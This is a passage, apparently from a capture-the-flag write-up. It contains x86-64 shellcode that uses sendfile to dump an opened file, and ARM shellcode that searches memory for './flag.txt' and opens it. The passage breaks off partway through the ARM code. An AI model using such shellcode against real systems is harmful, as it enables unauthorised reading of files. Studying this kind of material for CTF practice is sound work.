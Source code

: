     xor rdi, rdi
    inc rdi                   ; out_fd
    mov rsi, rax              ; in_fd from open
    xor rdx, rdx              ; offset
    mov r10, 0xFF             ; count
    mov rax, 40               ; SYS_sendfile
    syscall

    xor rax, rax
    mov al, 60                ; SYS_exit
    xor rdi, rdi              ; code
    syscall

For ARM coder, the solution is much the same, except using `read()` and
`write()` instead of `sendfile()`.

    .section .text
    .global shellcode
    .arm

    shellcode:
      # r0 = my shellcode
      # r1 = new stack
      # r2 = some pointer

      # load ./fl into r3
      MOVW r3, #0x2f2e
      MOVT r3, #0x6c66
      # load ag.t into r4
      MOVW r4, #0x6761
      MOVT r4, #0x742e
    hunt:
      LDR r5, [r2, #0x4]!
      TEQ r5, r3
      BNE hunt
      LDR r5, [r2, #0x4]
      TEQ r5, r4
      BNE hunt
      # r2 should now have the address of ./flag.txt

      # SYS_open
      MOVW r7, #5
      MOV r0, r2
      MOVW r1, #0
      MOVW r2, #0
      SWI #0
